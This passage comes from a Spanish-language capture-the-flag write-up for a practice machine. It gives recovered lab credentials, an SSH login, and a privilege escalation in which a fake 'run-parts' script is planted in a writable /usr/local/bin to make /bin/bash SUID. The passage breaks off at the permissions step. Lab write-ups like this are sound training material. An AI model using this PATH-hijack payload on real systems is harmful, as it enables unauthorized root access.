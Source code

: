 - Usuario: `jkr`
- Contraseña: `raykayjay9`

![[Writeup7.png]]

---

# 💻 Intrusión por SSH

```bash
ssh jkr@10.10.10.138
# Contraseña: raykayjay9
```

![[Writeup8.png]]

---

# 🔼 Escalada de privilegios

Con `pspy32` vemos ejecución automática de `run-parts` al iniciar sesión. [[PSPY]]

![[Writeup9.png]]

Verificamos ubicación:

```bash
which run-parts
```

Confirmamos que `/usr/local/bin` está antes en `PATH`.

![[Writeup10.png]]

El grupo `staff` permite modificar `/usr/local`.

![[Writeup 11.png]]

### Path Hijacking

Creamos el archivo:

```bash
nano /usr/local/bin/run-parts
```

Contenido:

```bash
#!/bin/bash
chmod u+s /bin/bash
```

Permisos:
